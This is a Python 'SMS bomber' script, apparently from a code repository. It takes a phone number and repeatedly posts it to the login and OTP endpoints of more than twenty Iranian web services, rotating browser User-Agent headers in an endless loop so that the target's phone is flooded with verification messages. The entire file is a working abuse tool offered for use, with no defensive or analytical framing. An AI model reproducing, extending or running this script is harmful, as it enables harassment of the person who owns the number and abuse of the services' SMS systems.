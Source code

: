 # -sms-bomber
import json
import requests
import random
import time

number = input("Inter your phone number (without 0) : ")
url_divar= "https://api.divar.ir/v5/auth/authenticate"
json_divar= {"phone":number}

url_ofchanel = "https://api.offch.com/followed_shops"
json_ofchanel = {"shop":number}
url_footbal360 = "https://football360.ir/api/auth/verify-phone/"
json_footbal360 = {"phone_number": number}

url_snapp= "https://app.snapp.taxi/api/api-passenger-oauth/v2/otp"
json_snapp= {"cellphone":"+98" + number}

url_sf= "https://snappfood.ir/mobile/v2/user/loginMobileWithNoPass?lat=35.774&long=51.418&optionalClient=WEBSITE&client=WEBSITE&deviceType=WEBSITE&appVersion=8.1.1&UDID=4a2dcc5a-4b65-4b72-a3ab-c6cdcc6e1737&locale=fa"
json_sf= {"cellphone":"0" + number}

url_sh= "https://www.sheypoor.com/api/v10.0.0/auth/send"
json_sh= {"username":"0" + number}

url_alibaba= "https://ws.alibaba.ir/api/v3/account/mobile/otp"
json_alibaba= {"phoneNumber":"+98" + number}

url_cinma= "https://cinematicket.org/api/v1/users/signup"
json_cinma= {"phone_number":"98" + number}

url_digikala= "https://api.digikala.com/v1/user/authenticate/"
json_digikala= {"backUrl":"/","username":"0" + number}

url_jet= "https://api.digikalajet.ir/user/login-register/"
json_jet= {"phone":"0" + number}

url_virgool= "https://virgool.io/api/v1.4/auth/verify"
json_virgool= {"method":"phone","identifier":"+98" + number}

url_aparat= "https://www.aparat.com/api/fa/v1/user/Authenticate/signin_step1?callbackType=postmessage"
json_aparat= {"temp_id":"474674","account":"0","codepass_type":"otp","guid":"3433103F-9DE0-6E66-5829-B02DFE66EEF0" + number}

url_telewebion= "https://auth.telewebion.com/user/authenticate"
json_telewebion= {"field":"+98","type":"mobile" + number}

url_sb= "https://cpanel.snapp-box.com/api/v2/auth/otp/send"
json_sb= {"phoneNumber":"0" + number}

url_tpsi= "https://api.tapsi.cab/api/v2/user"
json_tpsi= {"credential":{"phoneNumber":"0","role":"PASSENGER" + number}}

url_tim = "https://api.timcheh.com/auth/otp/send"
json_tim = {"mobile":"0"+number}

url_dr = "https://cyclops.drnext.ir/v1/patients/auth/send-verification-token"
json_dr = {"mobile":number}

url_tript = "https://uiapi2.saapa.ir/api/otp/sendCode"
json_tript = {"mobile": "0"+number}

url_sibapp = "https://api.sibche.com/profile/sendCode"
json_sibapp = {"mobile": "0"+number}

url_banimod = "https://mobapi.banimode.com/api/v2/auth/request"
json_banimod = {"phone":"0"+number}

url_bime = "https://api.bimebama.com/user/send_sms"
json_bime = {"mobile": "0"+number}

url_tor = "https://www.eligasht.com/Authentication/register"
json_tor = {"username": "0"+number}

url_zarinpal = "https://next.zarinpal.com/api/oauth/initialize"
json_zarinpal = {"username": "0"+number}

url_beroozmart = "https://api.beroozmart.com/api/pub/account/send-otp"
json_beroozmart ={"username": "98"+number}

url_korosh = "https://www.okcs.com/users/mobilelogin"
json_korosh = {"mobile":number}

url_gap = "https://api.snapp.market/mart/v1/user/loginMobileWithNoPass?cellphone={number}"
json_gap = {"cellphone":number}

heads = [
    {
    'User-Agent' : 'Mozilla/5.0 (Windows NT 6.1; rv:76.0)Gecko/20100101 Firefox/76.0',
    'Accept': '*/*'
    },
     {
    "User-Agent" : "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0)Gecko/20100101 Firefox/72.0",
    'Accept': '*/*'
    },
     {
    "User-Agent" : "Mozilla/5.0 (X11; Debian; Linux X86_64; rv:72.0)Gecko/20100101 Firefox/72.0",
    'Accept': '*/*'
    },
     {
    'User-Agent' : 'Mozilla/5.0 (Windows NT 6.1; rv:76.0)Gecko/20100101 Firefox/69.0',
    'Accept': '*/*'
    },
     {
    "User-Agent" : "Mozilla/5.0 (X11; Debian; Linux X86_64; rv:72.0)Gecko/20100101 Firefox/76.0",
    'Accept': '*/*'
    },
]


while True:
    random_head = random.choice(heads)
    req = requests.post(url=url_divar,json=json_divar,headers=random_head)
    print(req)
    req1 = requests.post(url= url_snapp,json=json_snapp,headers=random_head)
    print(req1)
    req2 = requests.post(url= url_sf,json=json_sf,headers=random_head)
    print(req2)
    req3 = requests.post(url= url_sh,json=json_sh,headers=random_head)
    print(req3)
    req4 = requests.post(url= url_alibaba,json=json_alibaba,headers=random_head)
    print(req4)
    req5 = requests.post(url= url_cinma,json=json_cinma,headers=random_head)
    print(req5)
    req6 = requests.post(url= url_digikala,json=json_digikala,headers=random_head)
    print(req6)
    req7 = requests.post(url= url_jet,json=json_jet,headers=random_head)
    print(req7)
    req8 = requests.post(url= url_virgool,json=json_virgool,headers=random_head)
    print(req8)
    req9 = requests.post(url= url_aparat,json=json_aparat,headers=random_head)
    print(req9)
    req10 = requests.post(url= url_telewebion,json=json_telewebion,headers=random_head)
    print(req10)
    req11 = requests.post(url= url_sb,json=json_sb,headers=random_head)
    print(req11)
    req12 = requests.post(url= url_tim,json=json_tim,headers=random_head)
    print(req12)
    req13 = requests.post(url= url_dr,json=json_dr,headers=random_head)
    print(req13)
    req14 = requests.post(url= url_footbal360,json=json_footbal360,headers=random_head)
    print(req14)
    req15 = requests.post(url= url_ofchanel,json=json_ofchanel,headers=random_head)
    print(req15)
    req16 = requests.post(url= url_tript,json=json_tript,headers=random_head)
    print(req16)
    req17 = requests.post(url= url_sibapp,json=json_sibapp,headers=random_head)
    print(req17)
    req18 = requests.post(url= url_banimod,json=json_banimod,headers=random_head)
    print(req18)
    req19 = requests.post(url= url_bime,json=json_bime,headers=random_head)
    print(req19)
    req20 = requests.post(url= url_tor,json=json_tor,headers=random_head)
    print(req20)
    req21 = requests.post(url= url_zarinpal,json=json_zarinpal,headers=random_head)
    print(req21)
    req22 = requests.post(url= url_beroozmart,json=json_beroozmart,headers=random_head)
    print(req22)
    req23 = requests.post(url= url_korosh,json=json_korosh,headers=random_head)
    print(req23)
    req24 = requests.post(url= url_korosh,json=json_korosh,headers=random_head)
    print(req24)
    req25 = requests.post(url= url_gap,json=json_gap,headers=random_head)
    print(req25)
    time.sleep(5)
